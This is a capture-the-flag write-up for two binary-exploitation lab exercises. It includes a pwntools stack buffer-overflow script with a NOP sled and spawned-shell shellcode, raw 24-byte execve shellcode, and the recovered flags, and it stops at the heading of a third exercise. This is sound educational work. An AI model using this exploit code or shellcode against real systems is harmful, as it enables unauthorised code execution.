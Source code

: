 # BOF101

The first thing to do to exploit the vulnerability in this exercise as the name suggested was finding the correct offset to make the input buffer overflow.
In order to do so I used the cyclic pattern explained in the slides using pwntools methods that made this task quite simple

```python
pattern = pwn.cyclic(100)
io = pwn.process(bin)
io.sendline(pattern)
offset = pwn.cyclic_find(0x6161616C)
```

The text printed out by the bin suggested that there was a leaked address where it was possible to inject some code so I parsed it out and added it to the payload along with a 'nop sled', that assured that the next instruction would be our shellcode forged using pwntools

```python
leaked_address = io.recvuntil(b"&x=")
leaked_address = io.recvline().strip().decode()
io.sendline(
    b"a" * OFFSET_RIP
    + pwn.p64(int(leaked_address, 16))
    + pwn.asm("nop") * 50
    + pwn.asm(pwn.shellcraft.sh())
)
```

Doing so I was able to get the first flag

```
BASC{Congratz_U_3Xpl0it3d_your_f1r5t_BOF}
```

# Smallcode

```
Don't be fooled by my name: I'm a great code-runner ;-) ... though I can only run a small amount of code each time.

Send me any x64 shellcode, up to 25 bytes, and I'll execute it (at a random address, in rwx memory).
```

Using the resources I found in the slides I was able to find a shell-code on "shell-storm.org" with a length of just 24 bytes that executed the command 

```c
execve("/bin/bash",{NULL},{NULL})
```

Sending the shell-code as I found it was just enough to get the flag

```python
shellcode = b"\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x50\x54\x5f\x31\xc0\x50\xb0\x3b\x54\x5a\x54\x5e\x0f\x05"
io.send(shellcode)
```

```
BASC{0pT1miZin9_5h3llc0d3_iS_n0T_s0_H4rD}
```

# No_syscalls

